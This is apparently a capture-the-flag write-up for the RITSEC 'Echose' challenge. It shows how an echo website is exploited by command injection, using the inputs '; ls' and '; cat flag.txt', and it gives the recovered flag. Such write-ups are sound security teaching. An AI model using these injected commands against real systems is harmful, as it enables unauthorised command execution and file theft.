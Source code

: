 # Echose
> Do you hear that?

> https://echoes-web.challenges.ctf.ritsec.club/

## About the Challenge
We have been given a website that has a functionality print our input

![preview](images/preview.png)

## How to Solve?
This website was vulnerable to Command Injection. Try to input `; ls` to run `ls` command

![ls](images/ls.png)

As we can see there is a file called `flag.txt` try read it using `; cat flag.txt` command

![flag](images/flag.png)

```
RS{R3S0UND1NG_SUCS3SS!}
```